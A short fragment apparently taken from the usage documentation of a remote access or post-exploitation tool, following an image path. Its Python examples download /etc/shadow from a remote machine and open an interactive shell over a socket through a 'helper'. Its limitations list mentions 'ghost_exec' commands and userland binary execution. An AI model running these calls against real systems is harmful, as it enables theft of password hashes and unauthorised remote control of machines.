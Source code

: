 ```python
time.sleep(2)
result = d.rdownload("/etc/shadow", 5555)
```

### Using Helpers for Persistent Connections
```python
# Execute a shell via a helper
socket = d.helper("./helper_shell", "shell")

# Interactive communication with the shell
socket.send(b"ls -la\n")
response = socket.recv(4096)
print(response)

# Close the connection
socket.close()
```

## Known Limitations

1. Maximum size of ghost_exec commands is limited to 1300 characters
2. Operations are sensitive to network issues (configurable timeouts)
3. Userland execution of binaries requires the binary to be statically linked
4. It does not maintain persistence after system reboot